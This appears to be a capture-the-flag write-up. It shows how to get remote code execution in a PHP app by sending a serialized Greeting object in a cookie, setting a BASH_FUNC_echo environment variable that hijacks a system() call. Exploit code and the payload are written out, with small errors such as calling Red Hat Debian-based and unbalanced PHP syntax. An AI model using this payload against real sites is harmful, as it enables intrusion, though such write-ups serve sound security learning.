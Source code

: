 We can start to think of what environment variables we can set that will help us gain RCE. Looking at the environment, we can see it is running (Red Hat) Open SSL/1.0.2k-fips, which is a Debian based system.
![environment](../images/alpha1.png)

As such, we can start to think of `BASH_FUNC` extended variables in environment. Basically, we can hijack any bash command by just prefixing it appropriately, for example, the echo command can be hijacked with `BASH_FUNC_echo()=() { id; }`.

We initialize an anonymnous function which will overwrite the `echo` command in this Bash context, which is our step into RCE. So it's clear that we need to set

```php
private $info = array("name" => "GreyCat", "BASH_FUNC_echo()" => "() { id; }";
```

The dunder method `__wakeup` will be called when an object of the class is initialized, overwriting the `echo` function and giving RCE.

First we need to make sure we have the serialized form, so we can pass it as a cookie to make the site deserialize it.

Also note that we can't just create any class we want because of this, so we have to make sure it is of the `Greeting` class.

```php
function unserialize_safe($str) {
    return unserialize($str, ['allowed_classes' => ['Greeting']]);
}
```

> Note: contrary to its name, this function is not safe.

So first we construct our new class, and get its serialized form

```php
class Greeting {
    private $info = array("name" => "GreyCat", "BASH_FUNC_echo()" => "() { id; }";

    public function __wakeup() {
        foreach ($this->info as $key => $value) {
            putenv("{$key}={$value}");
        }
    }

    public function sayHi() {
        system('echo Hello, $name');
    }

```